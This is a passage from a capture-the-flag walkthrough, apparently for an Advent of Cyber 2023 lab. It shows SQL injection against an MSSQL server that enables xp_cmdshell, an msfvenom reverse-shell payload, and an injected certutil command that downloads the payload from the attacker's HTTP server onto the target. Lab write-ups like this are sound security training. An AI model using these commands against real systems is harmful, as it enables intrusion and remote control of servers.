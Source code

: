    Scrolling all the way to the bottom gives us the answer we are looking for.

   ><details><summary>Click for answer</summary></details>

4. What flag is in the note file Gr33dstr left behind on the system?

   To get access to the underlying file system, we need to perform several steps.

   First we must enable `xp_cmdshell` as this will enable us to execute commands on the filesystem. We can do this by injection this command using SQL injection:
   
   ```cmd
   EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
   ```

   ![Enable Xpcmd](Pictures/Advent_Of_Cyber_2023_D10_Enable_Xpcmd.png)

   The next thing to do is prepare our reverse shell using msfvenom.

   ```cmd
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.18.78.136 LPORT=1337 -f exe -o gift.exe
   ```

   ![Shell](Pictures/Advent_Of_Cyber_2023_D10_Shell.png)
   
   Using `xp_cmdshell` and `certutil` we can transfer this file to the server using the SQL injection we just found.

   First, setup a python server in the same folder as our shell using `python3 -m http.server 8080`.

   Then use this injection in the gift search url.
   
   ```cmd
   '; EXEC xp_cmdshell 'certutil -urlcache -f http://10.18.78.136:8080/gift.exe C:\Windows\Temp\gift.exe';--
   ```
